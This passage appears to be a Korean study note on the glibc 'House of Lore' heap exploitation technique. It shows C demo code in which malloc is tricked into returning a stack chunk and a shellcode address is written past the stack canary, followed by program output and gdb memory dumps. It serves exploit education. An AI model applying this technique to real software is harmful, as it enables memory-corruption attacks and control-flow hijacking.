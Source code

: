 ```c
  void *p3 = malloc(100);


  fprintf(stderr, "This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  fprintf(stderr, "p4 = malloc(100)\n");

  fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  fprintf(stderr, "\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```

```
Welcome to the House of Lore
This is a revisited version that bypass also the hardening check introduced by glibc malloc
This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23

Allocating the victim chunk
Allocated the first small chunk on the heap at 0x804c008
```

* malloc으로 100만큼 할당 <- victim(0x804c000)

```
gdb-peda$ x/24wx 0x804c000
0x804c000:	0x00000000	0x00000069	0x00000000	0x00000000
```

* Stack 영역에 Fake Chunk를 만들기 위한 Buffer 확인

```
stack_buffer_1 at 0xffffd58c
stack_buffer_2 at 0xffffd580
Create a fake chunk on the stack
Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corruptedin second to the last malloc, which putting stack address on smallbin list
Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake chunk on stack
```

* p5에 malloc으로 1000만큼 할당  
* free 시 top chunk와 병합되지 않도록 large chunk를 만든다.

```
Allocating another large chunk in order to avoid consolidating the top chunk withthe small one during the free()
Allocated the large chunk on the heap at 0x804c070

Freeing the chunk 0x804c008, it will be inserted in the unsorted bin
```
